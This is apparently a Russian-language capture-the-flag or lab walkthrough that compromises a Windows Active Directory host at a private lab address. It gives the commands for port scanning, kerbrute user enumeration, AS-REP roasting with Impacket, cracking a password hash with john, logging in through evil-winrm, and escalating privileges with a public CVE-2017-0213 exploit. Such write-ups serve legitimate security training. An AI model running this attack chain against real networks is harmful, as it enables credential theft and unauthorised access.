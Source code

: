 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89a16d7f-54dc-47fb-9d28-78a1557835f8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)
```
evil-winrm -i 192.168.2.2 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/695aca7e-e845-447e-9bb8-7bdfc20367ce)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97dd49d3-0a4b-400a-a92b-083764b07420)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44d1badc-7f98-437f-ac3c-a09e8ba8aaff)

Remmina

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6140441b-f902-4f07-b03e-66000f074fa1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec67c0ff-68e9-408a-8747-ba16afa1a625)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecc078f6-78a9-4a8c-8f30-10bbdd3d8f8b)

Ищем CVE-2017-0213 на гите 

https://github.com/eonrickity/CVE-2017-0213

Грузим его через Ковалеву и запускаем

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6365bd44-596c-4612-9f3a-6faa7c26d34e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9ce179a9-1e65-44f3-9ac0-618836f41ec5)




